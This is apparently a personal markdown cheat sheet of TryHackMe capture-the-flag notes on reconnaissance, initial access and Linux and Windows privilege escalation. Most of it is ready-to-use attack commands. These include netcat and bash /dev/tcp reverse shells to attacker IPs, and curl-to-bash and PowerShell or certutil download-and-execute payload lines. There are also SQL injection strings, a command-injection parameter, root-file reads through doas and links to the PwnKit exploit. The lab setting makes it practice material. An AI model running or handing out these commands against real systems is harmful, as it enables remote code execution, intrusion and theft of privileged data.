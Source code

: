 
# Tryhackme Experience
- Index
  - [Reconnaissance](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#reconnaissance)
  - [Initial Access](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#initial-access)
  - [Interesting files and paths](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#interesting-files-and-paths)
  - [Esclation and Tweaks](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#esclation-and-tweaks)


### Reconnaissance
- Nmap -sC -sV -v target   
  - sV tries to find out which services are running on the target
  - Pn disables the ping command and only scans ports.
  - sC is short form for script scan, based on services availble, it uses sripts to scan more
  - T<0-5>: Set timing template (higher is faster)
  - A Enable OS detection, version detection, script scanning, and traceroute
- gobuster dir -u http://10.10.164.212/ -w /usr/share/wordlists/dirb/common.txt
  - dir fuzzer 
- nikto -h target
  - tool for enumerating information from Windows and Samba systems
- enum4linux target
  - tool for enumerating information from Windows and Samba systems 
- smbmap -H target 
  - SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents etc.
- smbclient //target/share
  - Mostly used in null sessions kinda samba exploitable directories
- rustscan 
### Initial Access
- Searchsploit nagios
  - searchsploit -m php/webapps/blah.txt  -> convert to py shell and read the comments/usage details in the the following code and input accordingly
 - python3 -m http.server 8080
  - Opens up a dedicated python server over the internet to serve files in that directory
  - http://10.9.2.90:8080/shell.sh | bash
 - nc -nlvp 1234
   - Opens up a netcat shell on attacker box for incoming connections 
 -  python -c 'import pty; pty.spawn("/bin/bash")'  
   - Upgrade from a dump shell to  bash shell
 - powershell.exe Invoke-WebRequest -Uri https://10.10.10.10/shell.exe -OutFile ./shell.exe && .\shell.exe
   - powershell.exe — this is a shell in windows (other than cmd.exe) it is object oriented and it is the blue teams best friend and a hackers favorite mistress
   - Invoke-WebRequest — powershell module similar to curl
   - Uri — the target URI
   - OutFile — what the file downloaded will be called
   - .\shell.exe — execute the shell.exe in the current working directory
   - Get-Content user.txt
 - certutil.exe -urlcache -split -f http://10.17.8.104:8080/mysqld_evil.exe mysqld.exe
   - To download a payload from a remote server 
- 1' or '1'='1';-- -
  - SQL Injection Payloads 
  - sqlmap -r login.req --level 3 --risk 3
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
  - If we have a ‘PHP system’ remote code exec on the system, we will spawn a proper rev shell using nc

- /bin/bash -i >& /dev/tcp/10.2.96.144/4443 0>&1
  - Load this babe into a .sh file used during cronjob kinda exploits 
  - ?cmd=curl+http://10.2.96.144:8000/rev.sh+|+bash
  - Downloadas and executes file
  - [Pentest Monkey Reverse PHP file](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

### Interesting files and paths
- cd /var/www/html/wordpress/wp-config.php
- doas.conf
  - Check whether SSL is permitted to run as root! [permit nopass plot_admin as root cmd openssl
]
  -  doas openssl enc -in "/root/root.txt"  
- 

### Esclation and tweaks
- su user
- sudo -l
- https://gtfobins.github.io/
  - Limuzzzzzz
- https://lolbas-project.github.io/  
  - Windows 
- find / -type f -perm -u=s 2>/dev/null
- getcap -r / 2>/dev/null 
- https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
- curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh



### References and boxes completed
1. https://tryhackme.com/room/techsupp0rt1
2. https://tryhackme.com/room/flatline
3. https://tryhackme.com/room/plottedtms
4. https://tryhackme.com/room/gallery666
5. 
    
